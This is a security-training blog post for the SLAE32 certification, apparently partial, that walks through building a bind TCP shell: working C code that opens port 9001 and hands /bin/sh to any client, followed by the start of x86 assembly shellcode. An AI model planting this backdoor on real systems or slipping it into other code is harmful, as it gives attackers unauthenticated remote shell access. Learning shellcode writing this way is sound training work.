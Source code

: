 ```yaml
---
title: SLAE32 - Assignment#1 [Bind TCP Shell]
author: bigb0ss
date: 2020-12-12 13:26:00 +0800
categories: [SLAE32]
tags: [slae32, assembly, x86, Bind TCP Shell]
image: /assets/img/post/slae32/slae32.png
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1542

# Assignement #1 
* Create a Shell_Bind_TCP shellcode
	- Binds to a port
	- Execs Shell on incoming connection

* Port number should be easily configurable


# What is a Bind Shell?
Bind TCP opens up a port on the victim system. If an attacker could exploit a vulnerability on the victim system, she can implant a bind shell and connect to it from the remote attaking box. However, due to a firewall and detection controls, reverse TCP shell is preferrable over bind TCP shell thesedays.

![image](/assets/img/post/slae32/assignment1/01.png)


# Socket Programming
Before creating our Bind TCP Shell in shellcode, we need to understand the Socket Programming. 

> **NOTE**: Socket programming is a way of connecting two nodes on a network to communicate with each other. 

![image](/assets/img/post/slae32/assignment1/02.png)

To better understand the Bind TCP, let's create a Bind TCP Shell in a higher programming language. We will use `C`:

```c++
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <stdlib.h>
#include <unistd.h>

int main()
{
	int sockfd, acceptfd;
	int port = 9001;

	struct sockaddr_in addr;
	addr.sin_family = AF_INET; 
	addr.sin_port = htons(port);
	addr.sin_addr.s_addr = INADDR_ANY;

	// 1) Socket Creation (sys_socket 1)
	sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// 2) Bind() Syscall (sys_bind 2)
	bind(sockfd, (struct sockaddr *) &addr, sizeof(addr));
	
	// 3) Listen() Syscall (sys_listen 4)
	listen(sockfd, 0);

	// 4) Accetpt() Syscall (sys_accept 5)
	acceptfd = accept(sockfd, NULL, NULL);

	// 5) Dup2() Syscall
	dup2(acceptfd, 0);	// stdin
	dup2(acceptfd, 1);	// stdout
	dup2(acceptfd, 2);	// stderr

	// 6) Execve() Syscall
	execve("/bin/sh", NULL, NULL);

	return 0;
}
```

Let's compile this: 

```console
gcc bind-tcp-shell.c -o bind-tcp-shell
```

The compiled binary can successfully open up a bind shell, and we can connect to it via `nc`.

![image](/assets/img/post/slae32/assignment1/03.png)


# Shellcode 

For our Bind TCP Shell shellcode, we need to use all those `syscalls`:
* 1) Socket - Initiating the socket connection
* 2) Bind - The `bind()` assigns the address specified by addr to the socket referred to by the file descriptor `sockfd`. 
* 3) Listen - Listen for the incoming connection
* 4) Accept - The  `accept()`  system call is used with connection-based socket types (SOCK_STREAM, SOCK_SEQPACKET)
* 5) Dup2 - Manages `stdin`, `stdout` and `stderr` for the file descriptor. This is necessary for input and output redirection. 
* 6) Execve - Execute a command (`/bin/sh` to spawn a shell)

## Syscall + Function Calls

First, we need to collect arguemnts for `socketcall()` as well as other `syscalls`. 

> **NOTE**: socketcall()  is  a  common  kernel  entry point for the socket system calls.

By querying `/usr/include/i386-linux-gnu/asm/unistd_32.h`, we can collect the following args for the `syscalls`:

```console
#define __NR_socketcall	102 --> Hex: 0x66
#define __NR_bind		361 --> Hex: 0x169
#define __NR_listen		363 --> Hex: 0x16b
#define __NR_accept4	364 --> Hex: 0x16c
#define __NR_dup2		63  --> Hex: 0x3f
#define __NR_execve		11  --> Hex: 0xb
```

Additionally, by looking at `/usr/include/linux/net.h`, we can also obtain args for the function calls:

```console
root@kali:~/Documents/SLAE32/Exam/Assignement1# cat /usr/include/linux/net.h | grep SYS
#define SYS_SOCKET		1		/* sys_socket(2)			*/
#define SYS_BIND		2		/* sys_bind(2)				*/
#define SYS_CONNECT		3		/* sys_connect(2)			*/
#define SYS_LISTEN		4		/* sys_listen(2)			*/
#define SYS_ACCEPT		5		/* sys_accept(2)			*/
#define SYS_GETSOCKNAME	6		/* sys_getsockname(2)		*/
#define SYS_GETPEERNAME	7		/* sys_getpeername(2)		*/
#define SYS_SOCKETPAIR	8		/* sys_socketpair(2)		*/
#define SYS_SEND		9		/* sys_send(2)				*/
#define SYS_RECV		10		/* sys_recv(2)				*/
#define SYS_SENDTO		11		/* sys_sendto(2)			*/
#define SYS_RECVFROM	12		/* sys_recvfrom(2)			*/
#define SYS_SHUTDOWN	13		/* sys_shutdown(2)			*/
#define SYS_SETSOCKOPT	14		/* sys_setsockopt(2)		*/
#define SYS_GETSOCKOPT	15		/* sys_getsockopt(2)		*/
#define SYS_SENDMSG		16		/* sys_sendmsg(2)			*/
#define SYS_RECVMSG		17		/* sys_recvmsg(2)			*/
#define SYS_ACCEPT4		18		/* sys_accept4(2)			*/
#define SYS_RECVMMSG	19		/* sys_recvmmsg(2)			*/
#define SYS_SENDMMSG	20		/* sys_sendmmsg(2)			*/
```

## Initialization

First, let's zero out some of the registers we are going to use:

```s
global _start

section		.text
_start:

xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx
```

## Socket()

Let's create the `socket()` shellcode:

```s
; 1) Socket Creation
; sockfd = socket(AF_INET, SOCK_STREAM, 0);

mov al, 0x66		; #define __NR_socketcall 102	--> Hex: 0x66
mov bl, 0x1			; #define SYS_SOCKET 1
push edx			; int protocol = 0
push ebx			; int SOCK_STREAM = 1
push 0x2			; int AF_INET = 2
mov ecx, esp		; Move stack pointer to ECX
int 0x80			; Execute
mov edi, eax		; Save the socketcall file descriptor to EDI
```

## Bind()

Let's create the `bind()` shellcode:

```s
; 2) Bind
; bind(sockfd, (struct sockaddr *) &addr, sizeof(addr));
;
; 	struct sockaddr_in addr;
;	addr.sin_family = AF_INET; 
;	addr.sin_port = htons(port);
;	addr.sin_addr.s_addr = INADDR_ANY;


```








